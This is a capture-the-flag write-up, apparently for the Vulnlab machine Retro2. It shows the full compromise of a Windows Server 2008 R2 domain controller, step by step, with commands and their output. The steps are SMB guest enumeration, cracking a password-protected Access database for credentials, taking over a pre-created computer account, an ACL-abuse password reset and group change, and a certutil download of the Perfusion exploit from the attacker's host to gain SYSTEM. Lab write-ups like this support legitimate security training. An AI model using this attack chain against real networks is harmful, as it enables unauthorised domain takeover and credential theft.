

# Vulnlab Machine : Retro2


## Enumeration
### Nmap scan

```sh
Nmap scan report for 10.10.65.246
Host is up (0.017s latency).
Not shown: 988 filtered tcp ports (no-response)
PORT      STATE SERVICE      VERSION
88/tcp    open  kerberos-sec Microsoft Windows Kerberos (server time: 2025-09-20 21:19:11Z)
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp   open  ldap         Microsoft Windows Active Directory LDAP (Domain: retro2.vl, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds Windows Server 2008 R2 Datacenter 7601 Service Pack 1 microsoft-ds (workgroup: RETRO2)
464/tcp   open  tcpwrapped
593/tcp   open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49157/tcp open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
49158/tcp open  msrpc        Microsoft Windows RPC
Service Info: Host: BLN01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   2:1:0: 
|_    Message signing enabled and required
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
| smb-os-discovery: 
|   OS: Windows Server 2008 R2 Datacenter 7601 Service Pack 1 (Windows Server 2008 R2 Datacenter 6.1)
|   OS CPE: cpe:/o:microsoft:windows_server_2008::sp1
|   Computer name: BLN01
|   NetBIOS computer name: BLN01\x00
|   Domain name: retro2.vl
|   Forest name: retro2.vl
|   FQDN: BLN01.retro2.vl
|_  System time: 2025-09-20T23:20:04+02:00
| smb2-time: 
|   date: 2025-09-20T21:20:01
|_  start_date: 2025-09-20T21:18:41
|_clock-skew: mean: -39m57s, deviation: 1h09m14s, median: 0s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
```
> adding domain names to `/etc/hosts` :

```sh
$ echo '10.10.65.246      BLN01.retro2.vl  retro2.vl' | sudo tee -a /etc/hosts
```
``Guest `account is not disabled , i try take advantage from this , enumerates shares, users, and other services to get access to the target 
```sh
$ nxc smb retro2.vl -u 'Guest' -p ''  
SMB         10.10.65.246    445    BLN01            [*] Windows Server 2008 R2 Datacenter 7601 Service Pack 1 x64 (name:BLN01) (domain:retro2.vl) (signing:True) (SMBv1:True)
SMB         10.10.65.246    445    BLN01            [+] retro2.vl\Guest: 
```

#### Shares Enumeration

```sh
$ nxc smb retro2.vl -u 'Guest' -p ''  --shares
SMB         10.10.65.246    445    BLN01            [*] Windows Server 2008 R2 Datacenter 7601 Service Pack 1 x64 (name:BLN01) (domain:retro2.vl) (signing:True) (SMBv1:True)
SMB         10.10.65.246    445    BLN01            [+] retro2.vl\Guest: 
SMB         10.10.65.246    445    BLN01            [*] Enumerated shares
SMB         10.10.65.246    445    BLN01            Share           Permissions     Remark
SMB         10.10.65.246    445    BLN01            -----           -----------     ------
SMB         10.10.65.246    445    BLN01            ADMIN$                          Remote Admin
SMB         10.10.65.246    445    BLN01            C$                              Default share
SMB         10.10.65.246    445    BLN01            IPC$                            Remote IPC
SMB         10.10.65.246    445    BLN01            NETLOGON                        Logon server share 
SMB         10.10.65.246    445    BLN01            Public          READ            
SMB         10.10.65.246    445    BLN01            SYSVOL                          Logon server share 
```
#### Users Enumeration

```sh
$ nxc smb retro2.vl -u 'Guest' -p ''  --rid-brute  | grep 'SidTypeUser' > users
$ cat users  | awk '{print $6}' | cut -d '\' -f 2 > users.txt ; rm users
```
> there is a `Public` share tha we can read, so let's see what is there 
```sh
$ smbclient //retro2.vl/Public 'Guest'
Try "help" to get a list of possible commands.
smb: \> 
smb: \> ls
  .                                   D        0  Sat Aug 17 16:30:37 2024
  ..                                  D        0  Sat Aug 17 16:30:37 2024
  DB                                  D        0  Sat Aug 17 14:07:06 2024
  Temp                                D        0  Sat Aug 17 13:58:05 2024

		6290943 blocks of size 4096. 1332470 blocks available
smb: \> cd DB\
smb: \DB\> ls
  .                                   D        0  Sat Aug 17 14:07:06 2024
  ..                                  D        0  Sat Aug 17 14:07:06 2024
  staff.accdb                         A   876544  Sat Aug 17 16:30:19 2024

		6290943 blocks of size 4096. 1328797 blocks available
smb: \DB\> get staff.accdb 
getting file \DB\staff.accdb of size 876544 as staff.accdb (1990.7 KiloBytes/sec) (average 1990.7 KiloBytes/sec)
smb: \DB\> cd ..
smb: \> ls
  .                                   D        0  Sat Aug 17 16:30:37 2024
  ..                                  D        0  Sat Aug 17 16:30:37 2024
  DB                                  D        0  Sat Aug 17 14:07:06 2024
  Temp                                D        0  Sat Aug 17 13:58:05 2024

		6290943 blocks of size 4096. 1328797 blocks available
smb: \> cd Temp\
smb: \Temp\> ls
  .                                   D        0  Sat Aug 17 13:58:05 2024
  ..                                  D        0  Sat Aug 17 13:58:05 2024

		6290943 blocks of size 4096. 1322876 blocks available
```

ahah !!! , we found `staff.accdb`.
```sh
$ file staff.accdb
staff.accdb: Microsoft Access Database
```

I ty to open it using some on line platforms , but it apears that it's a password protected , let try to crvk it 

```sh
$ office2john staff.accdb > hash.txt
$ john hash.txt  --wordlist=rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (Office, 2007/2010/2013 [SHA1 256/256 AVX2 8x / SHA512 256/256 AVX2 4x AES])
Cost 1 (MS Office version) is 2013 for all loaded hashes
Cost 2 (iteration count) is 100000 for all loaded hashes
Will run 6 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
class08          (staff.accdb)     
1g 0:00:00:14 DONE (2025-09-21 00:21) 0.06798g/s 313.2p/s 313.2c/s 313.2C/s giovanna..class08
Use the "--show" option to display all of the cracked passwords reliably
Session completed.          
```

We got the password , let's open it. there is some scripting lines, we found some credentials for the `ldapreader`.


```yml
strLDAP = "LDAP://OU=staff,DC=retro2,DC=vl"
strUser = "retro2\ldapreader"
strPassword = "ppYaVcB5R"
``` 

> valid credentials

```sh
$ nxc smb retro2.vl -u 'ldapreader' -p 'ppYaVcB5R'
SMB         10.10.65.246    445    BLN01            [*] Windows Server 2008 R2 Datacenter 7601 Service Pack 1 x64 (name:BLN01) (domain:retro2.vl) (signing:True) (SMBv1:True)
SMB         10.10.65.246    445    BLN01            [+] retro2.vl\ldapreader:ppYaVcB5R 
```

### Vulnerabilies

There is many weaknesses in this target as a example : 

```sh
$ nxc smb retro2.vl -u 'ldapreader' -p 'ppYaVcB5R'  -M coerce_plus
SMB         10.10.65.246    445    BLN01            [*] Windows Server 2008 R2 Datacenter 7601 Service Pack 1 x64 (name:BLN01) (domain:retro2.vl) (signing:True) (SMBv1:True)
SMB         10.10.65.246    445    BLN01            [+] retro2.vl\ldapreader:ppYaVcB5R 
COERCE_PLUS 10.10.65.246    445    BLN01            VULNERABLE, DFSCoerce
COERCE_PLUS 10.10.65.246    445    BLN01            VULNERABLE, PetitPotam
COERCE_PLUS 10.10.65.246    445    BLN01            VULNERABLE, MSEven

$ nxc smb retro2.vl -u 'ldapreader' -p 'ppYaVcB5R'  -M zerologon  
SMB         10.10.65.246    445    BLN01            [*] Windows Server 2008 R2 Datacenter 7601 Service Pack 1 x64 (name:BLN01) (domain:retro2.vl) (signing:True) (SMBv1:True)
SMB         10.10.65.246    445    BLN01            [+] retro2.vl\ldapreader:ppYaVcB5R 
ZEROLOGON   10.10.65.246    445    BLN01            VULNERABLE
ZEROLOGON   10.10.65.246    445    BLN01            Next step: https://github.com/dirkjanm/CVE-2020-1472

$ nxc smb retro2.vl -u 'ldapreader' -p 'ppYaVcB5R'  -M nopac       
SMB         10.10.65.246    445    BLN01            [*] Windows Server 2008 R2 Datacenter 7601 Service Pack 1 x64 (name:BLN01) (domain:retro2.vl) (signing:True) (SMBv1:True)
SMB         10.10.65.246    445    BLN01            [+] retro2.vl\ldapreader:ppYaVcB5R 
NOPAC       10.10.65.246    445    BLN01            TGT with PAC size 1427
NOPAC       10.10.65.246    445    BLN01            TGT without PAC size 694
NOPAC       10.10.65.246    445    BLN01            
NOPAC       10.10.65.246    445    BLN01            VULNERABLE
NOPAC       10.10.65.246    445    BLN01            Next step: https://github.com/Ridter/noPac
```

### BloodHound

```sh
nxc ldap 10.10.65.246 -u 'ldapreader' -p 'ppYaVcB5R'  --bloodhound --dns-server 10.10.65.246 -c All --dns-tcp
```


`FS01` and `FS02` are two computers in this domain, pre-created accounts that never logged on : `logonCount: 0`

```sh
# FS01, Computers, retro2.vl
dn: CN=FS01,CN=Computers,DC=retro2,DC=vl
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: user
objectClass: computer
cn: FS01
distinguishedName: CN=FS01,CN=Computers,DC=retro2,DC=vl
instanceType: 4
whenCreated: 20240817142422.0Z
whenChanged: 20240817142521.0Z
uSNCreated: 28707
uSNChanged: 28720
name: FS01
objectGUID:: JSVKTqo0GkS8/hV+843oWg==
userAccountControl: 4128
badPwdCount: 2
codePage: 0
countryCode: 0
badPasswordTime: 134028876026122000
lastLogoff: 0
lastLogon: 0
localPolicyFlags: 0
pwdLastSet: 133683782621620337
primaryGroupID: 515
objectSid:: AQUAAAAAAAUVAAAA876dXxGyDj7Cbw6tawQAAA==
accountExpires: 9223372036854775807
logonCount: 0
sAMAccountName: FS01$
sAMAccountType: 805306369
objectCategory: CN=Computer,CN=Schema,CN=Configuration,DC=retro2,DC=vl
isCriticalSystemObject: FALSE
dSCorePropagationData: 20240817142521.0Z
dSCorePropagationData: 16010101000000.0Z

# FS02, Computers, retro2.vl
dn: CN=FS02,CN=Computers,DC=retro2,DC=vl
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: user
objectClass: computer
cn: FS02
distinguishedName: CN=FS02,CN=Computers,DC=retro2,DC=vl
instanceType: 4
whenCreated: 20240817142437.0Z
whenChanged: 20240817142538.0Z
uSNCreated: 28713
uSNChanged: 28721
name: FS02
objectGUID:: J59/lPMnykeDSNGJVlE2Gg==
userAccountControl: 4128
badPwdCount: 0
codePage: 0
countryCode: 0
badPasswordTime: 0
lastLogoff: 0
lastLogon: 0
localPolicyFlags: 0
pwdLastSet: 133683782775592607
primaryGroupID: 515
objectSid:: AQUAAAAAAAUVAAAA876dXxGyDj7Cbw6tbAQAAA==
accountExpires: 9223372036854775807
logonCount: 0
sAMAccountName: FS02$
sAMAccountType: 805306369
objectCategory: CN=Computer,CN=Schema,CN=Configuration,DC=retro2,DC=vl
isCriticalSystemObject: FALSE
dSCorePropagationData: 20240817142538.0Z
dSCorePropagationData: 16010101000000.0Z
```

#### Pre-Windows 2000 computers 

When a new computer account is configured as "pre-Windows 2000 computer", its password is set based on its name (i.e. lowercase computer name without the trailing $). When it isn't, the password is randomly generated.

Once an authentication occurs for a pre-Windows 2000 computer, according to TrustedSec's [blogpost](https://www.trustedsec.com/blog/diving-into-pre-created-computer-accounts/), its password will usually need to be changed.

> so let's try to log in one if the two accounts: 

```sh
$ nxc smb 10.10.65.246 -u 'FS01$' -p 'fs01'   
SMB         10.10.65.246    445    BLN01            [*] Windows Server 2008 R2 Datacenter 7601 Service Pack 1 x64 (name:BLN01) (domain:retro2.vl) (signing:True) (SMBv1:True)
SMB         10.10.65.246    445    BLN01            [-] retro2.vl\FS01$:fs01 STATUS_NOLOGON_WORKSTATION_TRUST_ACCOUNT 
```
`STATUS_NOLOGON_WORKSTATION_TRUST_ACCOUNT` error : when we have guessed the correct password for a computer account that has not been used yet.

Great, we now know the password for an account that we can use ., but we cannot use this computer account before the password has been changed. let's change it.

```sh
$ impacket-changepasswd retro2.vl/'FS01$':'fs01'@10.10.65.246 -protocol rpc-samr -newpass 'zenon@' 
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Changing the password of retro2.vl\FS01$
[*] Connecting to DCE/RPC as retro2.vl\FS01$
[*] Password was changed successfully.

$ nxc smb 10.10.65.246 -u 'FS01$' -p 'zenon@'                                         
SMB         10.10.65.246    445    BLN01            [*] Windows Server 2008 R2 Datacenter 7601 Service Pack 1 x64 (name:BLN01) (domain:retro2.vl) (signing:True) (SMBv1:True)
SMB         10.10.65.246    445    BLN01            [+] retro2.vl\FS01$:zenon@                                      
```
Perfect !! , let's go :


#### ACL abise

`FS01` is a member of `DOMAIN COMPUTERS`. The members of the group `DOMAIN COMPUTERS@RETRO2.VL` have generic write access to the computer `ADMWS01.RETRO2.VL`.

Generic Write access grants you the ability to write to any non-protected attribute on the target object, including "members" for a group, and `serviceprincipalnames` for a user.

 We have control over FS01, we can take advantage of the GenericWrite permission we previously identified. Typically, this permission can be abused using one of the following techniques:
  - Shadow Credentials (applicable to Windows Server 2016 and later)
  - Targeted Kerberoasting (only effective if the target’s password is weak and crackable)
  - Resource-Based Constrained Delegation

Since , we are against Windows server 2008 , none of this will work, but we can change the password of `ADMWS01$` , in fact , we can modify the attribute `unicodePwd` which allows us to reset the password for “ADMWS01$”

```sh
$ net rpc password "ADMWS01$" 'zenon@' -U 'retro2.vl'/'FS01$'%'zenon@' -S BLN01.retro2.vl
```
The computer `ADMWS01.RETRO2.VL` has the ability to add arbitrary principals, including itself, to the group `SERVICES@RETRO2.VL`. Because of security group delegation, the members of a security group have the same privileges as that group. Now lets add `ldapreader` to ``SERVICES` group.

```sh
$ bloodyAD  -u 'ADMWS01$' -p 'zenon@' -d retro2.vl --dc-ip 10.10.65.246  add  groupMember 'SERVICES'  'ldapreader'  
[+] ldapreader added to SERVICES
```
once `ldapreder` is a member of the group, and the members of the group `SERVICES@RETRO2.VL`` have the capability to create a Remote Desktop Connection with the computer BLN01.RETRO2.VL. we can run our session, 


we got the uer flag !

## Privilege escalation


During my reaseach , i found this blog of [ntm4n : An Unconventional Exploit for the RpcEptMapper Registry Key Vulnerability](https://itm4n.github.io/windows-registry-rpceptmapper-exploit/).

now let's compile [`Perfusion`](https://github.com/itm4n/Perfusion) , and transfer it to the target.
```sh
certutil.exe -urlcache -f http://10.8.7.122/Perfusion.exe Perfusion.exe
```
```shell
PS C:\temp> ls


    Directory: C:\temp


Mode                LastWriteTime     Length Name
----                -------------     ------ ----
-a---         9/21/2025   2:56 PM      34816 Perfusion.exe


PS C:\temp> .\Perfusion.exe -c cmd -i
[*] Created Performance DLL: C:\Users\LDAPRE~1\AppData\Local\Temp\2\performance_2936_1
[*] Created Performance registry key.
[*] Triggered Performance data collection.
[+] Exploit completed. Got a SYSTEM token! :)
[*] Waiting for the Trigger Thread to terminate... OK
[!] Failed to delete Performance registry key.
[*] Deleted Performance DLL.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\temp>whoami
nt authority\system

C:\temp>cd /
C:\>dir
 Volume in drive C has no label.
 Volume Serial Number is 98B0-04D7

 Directory of C:\

07/14/2009  05:20 AM    <DIR>          PerfLogs
08/17/2024  06:51 PM    <DIR>          Program Files
08/17/2024  01:12 PM    <DIR>          Program Files (x86)
08/17/2024  04:30 PM    <DIR>          Public
09/21/2025  02:56 PM    <DIR>          temp
08/17/2024  01:50 PM                36 user.txt
09/21/2025  01:47 PM    <DIR>          Users
08/22/2024  03:54 PM    <DIR>          Windows
08/17/2024  01:54 PM    <DIR>          _admin
               1 File(s)             36 bytes
               8 Dir(s)   5,275,996,160 bytes free

C:\>cd Users/

C:\Users>dir
 Volume in drive C has no label.
 Volume Serial Number is 98B0-04D7

 Directory of C:\Users

09/21/2025  01:47 PM    <DIR>          .
09/21/2025  01:47 PM    <DIR>          ..
08/17/2024  10:41 AM    <DIR>          admin
08/17/2024  01:48 PM    <DIR>          administrator
09/21/2025  01:47 PM    <DIR>          ldapreader
07/14/2009  06:57 AM    <DIR>          Public
               0 File(s)              0 bytes
               6 Dir(s)   5,274,939,392 bytes free

C:\Users>cd administrator
C:\Users\administrator>cd Desktop

C:\Users\administrator\Desktop>dir
 Volume in drive C has no label.
 Volume Serial Number is 98B0-04D7

 Directory of C:\Users\administrator\Desktop

08/17/2024  04:17 PM    <DIR>          .
08/17/2024  04:17 PM    <DIR>          ..
08/17/2024  01:50 PM                36 root.txt
               1 File(s)             36 bytes
               2 Dir(s)   5,274,939,392 bytes free
```

[Retro2 rooted](https://api.vulnlab.com/api/v1/share?id=cf4610fd-987b-4e6a-bf30-ae4748a0e01c)


